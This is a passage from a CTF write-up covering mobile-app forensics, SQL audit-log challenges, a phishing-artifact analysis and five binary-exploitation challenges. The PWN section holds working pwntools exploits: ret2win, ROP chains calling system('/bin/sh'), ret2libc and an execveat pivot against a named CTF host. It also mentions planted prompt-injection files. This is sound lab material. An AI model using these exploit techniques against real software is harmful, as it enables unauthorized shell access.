> ℹ️ Note: this "Aurora" is a separate mobile-app challenge set from the Aurora Health SQL database in Part XIII — same fictional company, different artifact and different flags.

The app's `Info.plist` has a custom key `AuroraPatientBootstrap` holding a base64 string the binary decodes at startup into a `PatientBootstrap`:

```bash
plutil -extract AuroraPatientBootstrap raw aurora/.../Info.plist | base64 -d
# {"patientName":"Mara Voss","dateOfBirth":"1988-04-17","clinic":"Westlake"}
```

> 🚩 **Flag:** `deadface{mara-voss-1988-04-17}`

### Aurora Patient Portal (iOS) — Patient ID — `deadface{847261}` ✅

The bundled `aurora_chest_xray.jpg` carries an XMP Dublin Core identifier:

```bash
exiftool -XMP:Identifier aurora/.../aurora_chest_xray.jpg
# <dc:identifier>PID-847261</dc:identifier>
```

> 🚩 **Flag:** `deadface{847261}` (fallback form: `deadface{PID-847261}`)

### Aurora Patient Portal (iOS) — Medication — `deadface{Candesartan}` ✅

The bundled SQLite DB `aurora_meds.sqlite` links the patient ID to meds (row 100 of 100):

```bash
sqlite3 aurora_meds.sqlite "SELECT * FROM medications WHERE pid=847261;"
# 847261 | Ibuprofen | 400 mg | Every 8 hours as needed | Candesartan | 16 mg | Once daily
```

Besides Ibuprofen, the patient takes **Candesartan** 16 mg once daily.

> 🚩 **Flag:** `deadface{Candesartan}`

### Aurora Patient Portal (iOS) — Gateway — `deadface{gw-westlake-int-03}` ✅

A plaintext string in the app binary, among the strings for the hidden "Aurora Diagnostics" screen:

```bash
strings AuroraPatientPortal | grep -i -A5 'Internal clinic sync'
# Aurora Diagnostics / Internal clinic sync status
# gw-westlake-int-03
# Patient Cache Realm -> patient-summary-cache-v2 ...
```

Ties to Info-Leaks: the patient's clinic is **Westlake**, and this is Westlake's internal gateway.

> 🚩 **Flag:** `deadface{gw-westlake-int-03}`

---

## Part XIII — DataBASE: Aurora Health / Aurora Pharmacy

A single leaked "Aurora Health" MySQL/MariaDB instance (databases `aurora_ehr`, `aurora_pharmacy`, `aurora_audit`), investigated across eight increasingly specific questions. One VIP patient — Gregory Halloran, admitted under the alias "George Harmon", MRN **AH-0044719** — threads through most of the later challenges.

> ℹ️ Note: this is a separate challenge set from the Aurora Patient Portal **iOS app** in Part XII — same fictional company, different artifact (a leaked SQL dump here vs. a mobile app there) and different flags. We also worked a *different* leaked Aurora Health MySQL instance (databases `aurora_audit`, `aurora_trials`) from a different evidence set — see **Too Good to be True**, later in this Part, which reached a different schema/flag (`aurora_trials` clinical data, not this instance's EHR/pharmacy data) under the same challenge-name theme.

### Admitted Under Another Name — 15 pts
*SYYNTAX · DATABASE · SQL — by @syyntax*

Find the VIP patient hiding under a fake name and report their real MRN.

```sql
aurora> SELECT patient_id, mrn, first_name, last_name, alias, is_vip
        FROM patients WHERE is_vip = 1;
1007 | AH-0044719 | Gregory | Halloran | George Harmon | 1
```

> 🚩 **Flag:** `deadface{AH-0044719}`

### Schedule of Concern — 20 pts
*SYYNTAX · DATABASE · SQL — by @syyntax*

Count how many drugs in the formulary are DEA Schedule II.

```sql
aurora> SELECT dea_schedule, COUNT(*) FROM drugs GROUP BY dea_schedule;
II | 9   III | 4   IV | 5   V | 2   NULL | 12
```

> 🚩 **Flag:** `deadface{9}`


*GROUP BY dea_schedule over aurora_pharmacy.drugs.*

### The Attending — 40 pts
*SYYNTAX · DATABASE · SQL — by @syyntax*

Identify the attending provider for the VIP's one November-2025 inpatient admission.

```sql
aurora> SELECT p.mrn, e.admit_date, pr.username
        FROM patients p JOIN encounters e ON e.patient_id=p.patient_id
        JOIN providers pr ON pr.provider_id=e.attending_provider_id
        WHERE p.is_vip=1 AND e.encounter_type='inpatient'
          AND e.admit_date BETWEEN '2025-11-01' AND '2025-11-30';
AH-0044719 | 2025-11-14 | mreyes  (Marcus Reyes)
```

> 🚩 **Flag:** `deadface{mreyes}`


*Join across patients/encounters/providers resolves the attending's username.*

### Prying Eyes — 55 pts
*SYYNTAX · DATABASE · SQL — by @syyntax*

Find who accessed the VIP's chart more than anyone else, using the audit log.

```sql
aurora> SELECT u.username, COUNT(*) AS access_count
        FROM access_log a JOIN users u ON u.user_id=a.user_id
        WHERE a.patient_mrn='AH-0044719' AND a.resource='chart'
        GROUP BY u.username ORDER BY access_count DESC LIMIT 5;
rborden | 13     mreyes_ehr | 2     ebaker7 | 1
```

> 🚩 **Flag:** `deadface{rborden}`

### The Original Reading — 70 pts
*SYYNTAX · DATABASE · SQL — by @syyntax*

Veltrexa Phase III trial: find the one row in `data_changes` that quietly rewrote a primary efficacy endpoint (everything else is a routine (prior)/(corrected) source-data verification pair).

```
record_ref  VELT-0137 | field primary_efficacy_delta
old_value 2.3 -> new_value 6.0 | changed_by mreyes
reason: "Query resolution per monitor"
```

> 🚩 **Flag:** `deadface{2.3}`


*data_changes audit trail; one real edit hiding among the legitimate corrections.*

### Heavy Hand — 100 pts
*SYYNTAX · DATABASE · SQL — by @syyntax*

Find the prescriber who dispensed far more Schedule II medication than anyone else in Q4 2025.

```sql
aurora> SELECT p.dea_number, SUM(d.quantity_dispensed) AS total_qty
        FROM dispenses d JOIN prescriptions rx ON d.rx_id=rx.rx_id
        JOIN drugs dr ON rx.drug_id=dr.drug_id
        JOIN prescribers p ON rx.prescriber_id=p.prescriber_id
        WHERE dr.dea_schedule='II'
          AND d.dispensed_at BETWEEN '2025-10-01' AND '2025-12-31'
        GROUP BY p.dea_number ORDER BY total_qty DESC LIMIT 5;
BR2938471 | 5220   BR2340466 | 150   BP9010482 | 90 ...
```

> 🚩 **Flag:** `deadface{BR2938471}`


*BR2938471 dispensed 5,220 units vs. the next prescriber's 150.*

### After the Lock — 150 pts
*SYYNTAX · DATABASE · SQL — by @syyntax*

Find the subject whose primary efficacy result was edited after the trial's own data-lock date.

```sql
aurora> SELECT sub.subject_code, r.modified_at, st.data_lock_date
        FROM results r JOIN subjects sub ON sub.subject_id=r.subject_id
        JOIN studies st ON st.study_id=sub.study_id
        WHERE r.measure='primary_efficacy_delta'
          AND r.modified_at >= DATE_ADD(st.data_lock_date, INTERVAL 1 DAY);
VELT-0137 | 2025-12-06 23:14:00 | lock 2025-12-01
```

> 🚩 **Flag:** `deadface{VELT-0137}`


*The same subject (VELT-0137) edited 5 days after the data lock — by mreyes.*

### Ghost in the Registry — 240 pts
*SYYNTAX · DATABASE · SQL — by @syyntax*

Find a fabricated patient: billed for Schedule II prescriptions in `aurora_pharmacy` but with zero recorded clinical encounters in `aurora_ehr`, joined across databases on the shared enterprise `patient_id`.

```sql
aurora> SELECT p.mrn, p.first_name, p.last_name FROM aurora_ehr.patients p
  WHERE EXISTS (SELECT 1 FROM aurora_pharmacy.prescriptions rx
                JOIN aurora_pharmacy.drugs d ON d.drug_id=rx.drug_id
                WHERE rx.patient_id=p.patient_id AND d.dea_schedule IN ('II','CII'))
    AND NOT EXISTS (SELECT 1 FROM aurora_ehr.encounters e
                    WHERE e.patient_id=p.patient_id);
AH-0090001 | Dana Kessler
```

> 🚩 **Flag:** `deadface{AH-0090001}`


*Cross-database EXISTS/NOT EXISTS surfaces the one patient with no real encounters.*

### Two Places at Once — compromised account, 450 pts

```sql
USE aurora_audit;
SELECT u.username, COUNT(*) AS dual_workstation_events
FROM (
    SELECT user_id, accessed_at FROM access_log
    GROUP BY user_id, accessed_at
    HAVING COUNT(DISTINCT workstation) > 1
) dupes
JOIN users u ON u.user_id = dupes.user_id
GROUP BY u.username ORDER BY dual_workstation_events DESC;
```

Same account, same second, two workstations = impossible for one user.

> 🚩 **Flag format:** `deadface{<compromised_username>}`, from this query's top row.

### Too Good to be True — clinical-trial outlier, 310 pts

```sql
USE aurora_trials;   -- Veltrexa = study_id 1; primary endpoint = 'primary_efficacy_delta'
SELECT s.subject_code, r.value,
       (r.value - st.avg_val) / st.std_val AS z_score
FROM results r JOIN subjects s ON s.subject_id = r.subject_id
JOIN (SELECT AVG(value) avg_val, STDDEV_SAMP(value) std_val
      FROM results r2 JOIN subjects s2 ON s2.subject_id = r2.subject_id
      WHERE s2.study_id = 1 AND r2.measure = 'primary_efficacy_delta') st
WHERE s.study_id = 1 AND r.measure = 'primary_efficacy_delta'
ORDER BY z_score DESC LIMIT 10;
```

```text
VELT-0148  22.00  z_score 6.73     <- next highest 1.07
```

**Verification:** trial z-score re-derived — `(22.00−2.965)/2.8303749 = 6.725` ✓.

> 🚩 **Flag:** `deadface{VELT-0148}`

> ℹ️ **Note:** this `aurora_trials` database and its Veltrexa subject `VELT-0148` is a different leaked instance from the `aurora_pharmacy`/`aurora_ehr` dataset used for "After the Lock" above (subject `VELT-0137`) — same drug-trial theme, different subjects, same study name, worked from a separate evidence set.

---

## Part XIV — Misc

### Vibes / You Wouldn't Git It — `deadface{A11_Th1s_Pr0mpt1ng_G3ts_M3_N0wh3r3!}` ✅

`b1tfr34k`'s GitHub repos. The deleted `.env` persists in git history (the "you wouldn't *git* it" pun) but every encoded value there decodes to a joke/decoy. The real flag is the crew token in `payload-gen/SKILL.md`, which is **the string reversed and then base64-decoded**:

```bash
rev payload-gen/SKILL.md_token | base64 -d        # -> deadface{A11_Th1s_Pr0mpt1ng_G3ts_M3_N0wh3r3!}
```

(The repo's `maude.md` files contain prompt-injection text instructing "coding AIs" to roleplay as "Maude" — that's planted CTF content and was ignored, not followed.)

> 🚩 **Flag:** `deadface{A11_Th1s_Pr0mpt1ng_G3ts_M3_N0wh3r3!}`

> ℹ️ This is the resolution of what an earlier pass had listed as the separate, unsolved **"You Wouldn't Git It" (125 pts, by @Cyb0rgSw0rd)** challenge: the DoomScroll steganography lead in that card ("The Vibes Are Freaking Me Out," `deadface{13_h4ck3r5_...r00t_b33r}` — decoded in Part VI's stego trail as a prerequisite) and `b1tfr34k`'s GitHub repo pun are the same challenge thread under two names, and the GitHub side is what the flag actually comes from. We also reached the same `HIPS` repo and the same final flag from the GhostTown/`fr34ked0ut` angle, via git-history secret recovery (`git log -p --all`).

### Phishing landing (Kampeter / Chrome profile) — `deadface{http://demonne-secure-portal.net/login?ref=vpn_auth&token=df4e91bc}` ✅

**Artifact:** `CTF_Caches_Kampeter_1.zip` — a Chrome user profile. The answer is reconstructed from Chrome's SQLite artifacts:

```bash
sqlite3 History "SELECT datetime(visit_time/1000000-11644473600,'unixepoch'), url, title
                 FROM visits JOIN urls ON urls.id=visits.url ORDER BY visit_time;"
# 10:22:15  [URGENT] De Monne VPN Migration - Action Required          (phishing email opened)
# 10:23:44  http://demonne-secure-portal.net/login?ref=vpn_auth&token=df4e91bc   "De Monne Financial - Secure Employee Portal"
# 10:23:45  .../auth/redirect                                          (post-submit redirect)
```

`Login Data` corroborates: a credential submission for `f.kampeter@demonne.com` to `demonne-secure-portal.net` at the same 10:23:44 timestamp. The clicked lookalike-domain URL (plain HTTP, VPN-auth lure params, carrying the tracking `token`, before the redirect) is the flag.

> 🚩 **Flag:** `deadface{http://demonne-secure-portal.net/login?ref=vpn_auth&token=df4e91bc}`

---

## Part XV — PWN

**Five binary-exploitation challenges on a jail host at `159.65.228.107:5001–5005`.**

### The Crypt — ret2win, 100 pts

**Binary:** `The_Crypt` (ELF64, not stripped, no canary, no PIE) · **Remote:** `159.65.228.107:5001`

```bash
checksec --file=The_Crypt
```

```text
RELRO: Partial | Canary: No | NX: enabled | PIE: No PIE (0x400000) | Stripped: No
```

**Stage 1 — static XOR decode (bypass "Secret Code Required").** `de_crypt()` reads a static array at `0x405080`, XORs each byte with `0x13`, stops at the first **raw** `0x00`; `main()` then `strcmp`s your input against the result.

```python
from pwn import *
elf = ELF('./The_Crypt')
raw = elf.read(0x405080, 64)
secret = b''
for byte in raw:
    if byte == 0: break          # stop on the RAW null, not the decoded value
    secret += bytes([byte ^ 0x13])
print(secret)                    # b'Open_The_Door_To_Nowhere'
```

**Stage 2 — overflow → `nowhere()` (flag-printer at `0x401660`).** `whispering_madness()` uses `gets()` on a 64-byte buffer. Offset `64 + 8 = 72`.

```python
p = remote('159.65.228.107', 5001)
p.recvuntil(b'Required): '); p.sendline(secret)
p.sendline(b'A'*72 + p64(elf.symbols['nowhere']))
print(p.recvall(timeout=5).decode(errors='replace'))    # flag
```

> 🚩 **Flag format:** the flag was not captured as literal text in these notes; the command above prints it.

### Skeleton Key — ROP, argument-controlled win, 125 pts

**Binary:** `Skeleton_Key` (ELF64, no canary, no PIE) · **Remote:** `159.65.228.107:5002`

```bash
objdump -d Skeleton_Key | grep -iE '<.*>:'
```

```text
<Wretched_Lock>  0x401507    # prints flag.txt only if edi == 0xdeadc0de
<gadgets>        0x401615    # pop rdi ; ret
```

`main()` overflows via `gets()` (offset 72). A bare ret2win is not enough — control the argument:

```python
from pwn import *
payload = b'A'*72 + p64(0x401615) + p64(0xdeadc0de) + p64(0x401507)
p = remote('159.65.228.107', 5002)
print(p.recvrepeat(timeout=2).decode(errors='replace'))
p.sendline(payload)
print(p.recvall(timeout=5).decode(errors='replace'))
```

> 🚩 **Flag format:** printed by the command above; not transcribed verbatim in source notes.

### Cursed Mirror — Full ROP Chain, 150 pts

**Binary:** `Cursed_Mirror` (ELF64, no canary, no PIE, 513 MB padding) · **Remote:** `159.65.228.107:5003`

```bash
checksec --file=Cursed_Mirror     # No canary, No PIE, NX enabled
nm -C Cursed_Mirror | grep ' T '
nm -D Cursed_Mirror               # gets@GLIBC, system@GLIBC imported
```

```text
000000000040180d T Enter_The_Mirror   # dead-code: call system@plt
0000000000401da5 T gadgets            # pop rdi;ret / pop rsi;pop rdx;ret
00000000004019e3 T question           # the vulnerable menu option
```

`question()` → `gets()` into `rbp-0x40` (offset 72). `binwalk`'s hundreds of hits are padding noise; `.rodata` has no `/bin/sh`, so write it into `.data` scratch `0x4060c0` via a second `gets()`:

```python
from pwn import *
context.arch = 'amd64'
io = process('./Cursed_Mirror')          # or remote('159.65.228.107', 5003)
pop_rdi, gets_plt, system_plt, scratch = 0x401da5, 0x4010e0, 0x401080, 0x4060c0
payload  = b'A'*72
payload += p64(pop_rdi)+p64(scratch)+p64(gets_plt)       # gets(scratch)
payload += p64(pop_rdi)+p64(scratch)+p64(system_plt)     # system(scratch)
io.sendlineafter(b'>', b'2')
io.sendlineafter(b':', payload)
io.send(b'X')              # sacrificial byte — a trailing getchar() in question() eats one byte
io.sendline(b'/bin/sh')
io.interactive()
```

```text
$ id
uid=1000(user) gid=1000(user) ...
```

> 🚩 **Status:** confirmed solved and submitted against the remote.

### Cursed Library — ret2libc, double leak, 235 pts

**Binary:** `Cursed_Library` (64-bit PIE, no canary) + `libc.so.6` · **Remote:** `159.65.228.107:5004`

```bash
checksec --file=Cursed_Library     # PIE enabled, No canary
./ld-linux-x86-64.so.2 --library-path . ./Cursed_Library    # pwninit unavailable (no network)
```

`checkout()` `gets()` into `0x60` (offset 104). `"BookOfTheDead"` leaks PIE base; `Necronomicon()` leaks `GOT[puts]` (libc base). A bare `ret` realigns the stack before each hijacked entry.

```python
from pwn import *
context.arch = 'amd64'
exe  = ELF('./Cursed_Library', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
io   = remote('159.65.228.107', 5004)
def checkout(): io.recvuntil(b'> '); io.sendline(b'2'); io.recvuntil(b'open?\n> ')

checkout(); io.sendline(b'BookOfTheDead'); io.recvuntil(b'make out:  ')
exe.address = int(io.recvline().strip(),16) - 0x1ba1
RET = ROP(exe).find_gadget(['ret'])[0]

checkout()
io.sendline(b'A'*96+b'B'*8+p64(RET)+p64(exe.symbols['Necronomicon'])+p64(RET)+p64(exe.symbols['checkout']))
io.recvuntil(b'puts(): '); libc.address = int(io.recvline().strip(),16) - libc.symbols['puts']

io.recvuntil(b'open?\n> ')
rop = ROP(libc); rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])
io.sendline(b'A'*96+b'B'*8+p64(RET)+rop.chain())
io.interactive()
```

```bash
$ cat Necronomicon.txt      # the filename the normal interface refuses to open
deadface{...}
```

> 🚩 **Flag format:** printed via `cat Necronomicon.txt` once the shell lands.

### Necromancy — execveat pivot, 300 pts

**Binary:** `Necromancy` (statically linked, no PIE, no canary, `.text` = 120 B, 538 MB padding) · **Remote:** `159.65.228.107:5005`

`vuln()` reads `0x400` into a `0x78` buffer (offset **256**, confirmed with `pwn cyclic`). No gadget moves a pointer into RDI, so `execve` is impossible — pivot to `execveat` (syscall 322) whose path is in **RSI**, which `vuln`'s own `read()` controls. `RAX=322` comes free from sending exactly 322 bytes.

```asm
401072: 48 89 fa   mov rdx, rdi      ; KEY GADGET (sets argv=NULL)
401075: 0f 05      syscall
```

```python
from pwn import *
context.arch = 'amd64'
GADGET = 0x401072
payload  = b"/bin/sh\x00" + b"A"*(256-8) + p64(GADGET) + b"B"*58
assert len(payload) == 322        # read() return -> RAX == 322 (execveat)
io = remote("159.65.228.107", 5005)
io.recvuntil(b"Bring back the dead:")
io.send(payload)                  # raw send; sendline would make it 323
io.interactive()
```

> 🚩 **Status:** confirmed solved and submitted against the remote.

**Verification note — arithmetic re-derived, not copied from source notes, for this edition:**

| Challenge | Claim | Re-derivation | Result |
|-----------|-------|---------------|--------|
| The Crypt | offset 72 | buffer `rbp-0x40` (64) + saved rbp (8) | ✓ |
| Skeleton Key | offset 72 | buffer `rbp-0x40` (64) + saved rbp (8) | ✓ |
| Cursed Mirror | offset 72 | buffer `rbp-0x40` (64) + saved rbp (8) | ✓ |
| Cursed Library | offset 104 | buffer `0x60` (96) + saved rbp (8) | ✓ |
| Necromancy | offset 256 | `(rsp-0x78)` → ret at `rsp+0x88`: `0x88+0x78 = 0x100` | ✓ (matches `cyclic`) |
| Necromancy | `RAX = 322` | payload `8+248+8+58 = 322` bytes = `read()` return | ✓ (= `execveat`) |

---

## Part XVI — De Monne Slayer

**Mobile/APK series on `com.demonne.financial` (`app-release.apk`).**

```bash
apktool d -f app-release.apk -o apk_decoded && cd apk_decoded
cat AndroidManifest.xml          # usesCleartextTraffic="true"; exported DiagnosticActivity
grep -rn "deadface{" smali smali_classes2 assets res
```

> **Series lesson:** a correct flag in the *wrong* dashboard box reads as "incorrect" — match each flag to its named box.

### Diagnosis — 100 pts

`DiagnosticActivity.onCreate()` embeds a compile-time `const-string` with the flag — readable from smali, no device needed.

> 🚩 **Flag:** `deadface{flaG_ManIfesT3d}`

### Hard Kept Secrets — 20 pts

